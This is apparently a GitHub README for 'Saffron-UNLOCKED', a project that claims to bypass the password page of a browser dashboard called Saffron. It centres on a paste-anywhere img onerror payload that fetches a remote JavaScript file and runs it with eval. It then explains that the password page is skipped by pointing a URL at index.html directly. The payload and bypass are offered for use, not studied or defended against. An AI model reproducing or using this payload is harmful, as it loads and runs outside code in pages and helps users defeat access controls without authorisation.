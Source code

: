 # Saffron-UNLOCKED
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
# THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.

# How It Works

### Exploits the fact that there is no real encryption or protection of the index.html (Saffron's search dashboard) - main.html (password page) acts as just a doorway to index.html but <ins>is easily skipped</ins> by changing URL in main.js from main.html to index.html 

### Results in easy cracking and poor encryption
